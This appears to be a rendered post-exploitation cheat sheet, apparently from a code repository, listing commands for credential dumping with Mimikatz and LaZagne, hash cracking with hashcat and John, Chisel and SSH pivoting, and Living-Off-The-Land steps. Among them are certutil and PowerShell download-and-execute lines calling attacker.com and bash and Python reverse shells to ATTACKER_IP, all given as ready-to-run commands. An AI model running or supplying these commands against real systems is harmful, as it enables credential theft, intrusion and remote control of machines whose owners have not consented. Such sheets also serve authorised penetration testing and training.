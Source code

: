 ## POST-EXPLOITATION (Further Actions)

### Credential Dumping & Password Recovery (more variations)    
    :- (Mimikatz and LaZagne were in the original prompt's example, here are conceptual CLI uses)
    
    :- Run Mimikatz commands (Windows)
    mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit" > creds.txt 
    
    :- Recover stored passwords (Windows/Linux)
    python3 LaZagne.py all -oN lazagane_results
    
    :- Crack MD5 hashes
    hashcat -m 0 -a 0 hashes.txt rockyou.txt --force
    
    :- Crack NTLM hashes
    hashcat -m 1000 -a 0 ntlm_hashes.txt common_passwords.txt
    
    :- Crack SHA256 with John the Ripper
    john --wordlist=rockyou.txt --format=raw-sha256 hashes_sha256.txt 

### Tunneling & Pivoting    
    :- Start Chisel server for reverse SOCKS proxy
    chisel server -p 8000 --reverse
    
    :- Chisel client connecting for reverse SOCKS
    chisel client your_server_ip:8000 R:socks
    
    :- Dynamic port forwarding (SOCKS proxy) via SSH
    ssh -D 9050 user@target_server -N
    
    :- Local port forwarding
    ssh -L 8080:localhost:80 user@jump_host -N
    
    :- Remote port forwarding
    ssh -R 9090:localhost:3000 user@your_external_server -N

### Living Off The Land (LOLBAS/LOLBINS) - Conceptual examples    
    :- (These are highly dependent on the compromised system)
    
    :- Download file (Windows)
    certutil -urlcache -split -f http://attacker.com/payload.exe C:\temp\payload.exe 
    
    :- PowerShell download & exec
    powershell -c "IEX(New-Object Net.WebClient).DownloadString('http://attacker.com/ps_script.ps1')" 
    
    :- Bash reverse shell
    bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1'
    
    :- Python reverse shellpython -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",PORT));os.
    dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' 
